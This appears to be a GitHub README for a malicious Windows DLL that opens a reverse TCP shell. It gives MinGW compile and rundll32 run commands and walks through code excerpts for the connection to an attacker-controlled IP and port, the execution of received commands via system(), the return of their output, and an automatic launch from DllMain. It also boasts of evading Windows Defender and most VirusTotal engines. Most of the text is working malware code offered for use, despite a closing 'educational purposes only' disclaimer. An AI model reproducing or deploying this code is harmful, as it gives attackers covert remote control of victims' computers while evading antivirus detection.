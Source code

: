 # EvasionDLL
Malicious DLL used for establishing a Reverse TCP Shell 

## Overview
EvasionDLL is a research-focused project demonstrating how **DLL-based reverse shells** can be used to evade detection. 

---

# Detection Status  
During testing, **Windows 10 and Windows 11 did not flag this DLL as malicious**, allowing it to execute without interference. Standard Windows Defender protections were **bypassed** in a default configuration.  
 
### VirusTotal Scan Results  
Additionally, when uploaded to **VirusTotal**, the file received **only 3 detections out of 72 antivirus engines**, indicating that many security solutions failed to recognize it as a threat. 
![VirusTotal Scan](virus_total.png)

## How to Compile and Run

### **Compiling the C File to a DLL**  

To compile the provided C file (`reverse_shell.c`) into a DLL on a Linux system using **MinGW**, use the following command:  

```bash
x86_64-w64-mingw32-gcc -shared -o reverse_shell.dll reverse_shell.c -lws2_32
```

### Running the DLL on Windows

Once the DLL is compiled, you can run it on a Windows System using the following command:
```bash
rundll32.exe .\reverse_shell.dll reverse_shell
```
![Windows Execution](windows_cmd.png)

## Understanding the Code

### Winsock Initialization
```c
WSADATA wsa;
if (WSAStartup(MAKEWORD(2,2), &wsa) != 0) {
    printf("WSAStartup failed with error: %d\n", WSAGetLastError());
    return;
}
```
- Initializes **Windows Sockets API (Winsock)** to enable network communication.
- If initialization fails, the function exits.

### Socket Creation
```c
sock = socket(AF_INET, SOCK_STREAM, 0);
if (sock == INVALID_SOCKET) {
    printf("Socket creation failed with error: %d\n", WSAGetLastError());
    WSACleanup();
    return;
}
```
- Creates a **TCP socket** for communication.
- If socket creation fails, the program terminates.

### Connecting to the Remote Server
```c
server.sin_family = AF_INET;
server.sin_port = htons(PORT);
server.sin_addr.s_addr = inet_addr(IP);

if (connect(sock, (struct sockaddr*)&server, sizeof(server)) < 0) {
    printf("Connection failed with error: %d\n", WSAGetLastError());
    closesocket(sock);
    WSACleanup();
    return;
}
```
- Specifies the **attacker-controlled server IP and port**.
- Attempts to establish a **reverse shell connection**.

### Command Execution Loop
```c
bytes_received = recv(sock, buffer, sizeof(buffer), 0);
if (bytes_received == SOCKET_ERROR) {
    printf("Recv failed with error: %d\n", WSAGetLastError());
    break;
}

buffer[bytes_received] = '\0';
system(buffer);  // Execute received commands

bytes_received = send(sock, buffer, bytes_received, 0);
```
- **Receives commands** from the attacker.
- Uses `system(buffer)` to **execute received commands**.
- Sends **command output back to the attacker**.

### DLL Execution Trigger
```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        reverse_shell(); // Execute the reverse shell when the DLL is loaded
    }
    return TRUE;
}
```
- When the DLL is **loaded into a process**, it **automatically** launches the reverse shell.
- This **abuses DLL hijacking or injection** to execute malware.

---

---

## Further Reading
- [MITRE ATT&CK: Execution Techniques](https://attack.mitre.org/techniques/T1059/)
- [Microsoft Security Guidance](https://www.microsoft.com/security/blog/)
- [DLL Injection Explained](https://attack.mitre.org/techniques/T1055/001/)

---


**Disclaimer:** This repository is for **educational and research purposes only**. 
